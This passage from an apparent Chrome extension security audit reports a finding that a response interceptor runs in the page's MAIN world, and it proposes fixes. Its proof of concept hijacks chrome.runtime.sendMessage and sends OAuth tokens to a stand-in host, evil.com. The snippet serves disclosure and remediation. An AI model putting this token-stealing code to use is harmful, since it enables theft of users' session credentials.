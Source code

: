 **Estimated Effort:** 4 hours
**Testing:** Simulate storage quota exceeded

---

### CRITICAL-03: Response Interceptor Runs in MAIN World
**File:** `response-interceptor.js:6-13, 28-31`
**Risk:** Token theft, evasion, integrity bypass

**Problem:**
- Interceptor patches `window.fetch` globally
- Runs in MAIN world (accessible to page JavaScript)
- Page can override patches or intercept messages

**Proof of Concept:**
```javascript
// Malicious page steals OAuth tokens:
const real_sendMessage = chrome.runtime.sendMessage;
chrome.runtime.sendMessage = function(msg) {
  if (msg.action === 'responseIntercepted') {
    fetch('https://evil.com/steal?token=' + msg.data.body);
    return; // Drop message to extension
  }
  return real_sendMessage.apply(this, arguments);
};
```

**Impact:**
- **Confidentiality:** OAuth tokens, JWTs, session cookies stolen
- **Integrity:** Fake security findings injected
- **Evasion:** Detection disabled by attacker

**Fix:**
Option 1: Use Chrome DevTools Protocol (already have debugger permission):
```javascript
// In background.js
chrome.debugger.sendCommand(
  {tabId: tabId},
  'Network.enable'
);

chrome.debugger.onEvent.addListener((source, method, params) => {
  if (method === 'Network.responseReceived') {
    // Secure response capture without MAIN world injection
  }
});
```

Option 2: Use isolated world (Chrome 111+):
```javascript
// In manifest.json
"content_scripts": [{
  "matches": ["<all_urls>"],
  "js": ["response-interceptor.js"],
  "world": "ISOLATED",
  "run_at": "document_start"
}]
```
